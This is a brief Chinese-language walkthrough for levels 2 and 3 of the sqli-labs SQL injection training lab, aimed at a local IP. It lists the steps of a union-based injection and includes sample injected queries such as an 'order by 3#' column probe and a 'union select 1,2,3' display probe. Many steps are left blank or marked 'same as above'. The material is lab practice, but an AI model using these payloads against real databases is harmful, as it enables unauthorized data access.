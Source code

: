 
第二关

1. 找到注入点

   http://192.168.157.137/sqli-labs/Less-2/index.php

2. 判断注入类型

   通过2-1被运算，判断出是数字型，没有闭合符

3. 猜测后端查询语句

   select * from xxx_tbl where id=1 limit 0,1;

4. 判断字段数

   以上

5. 判断显示位

   以上

6. 查库名

   以上

7. 查表名

   以上

8. 查列名

   以上

9. 查记录

   以上
   
   

第三关

1. 找到注入点

   http://192.168.157.137/sqli-labs/Less-3/index.php

2. 猜测后端查询语句

   select * from xxx_tbl where id=('1') LIMIT 0,1

3. 判断字段数

   select * from xxx_tbl where id=('1')') order by 3# LIMIT 0,1

4. 判断显示位

   select * from xxx_tbl where id=('-1')') union select 1,2,3# LIMIT 0,1

5. 查库名

6. 查表名

7. 查列名

8. 查记录
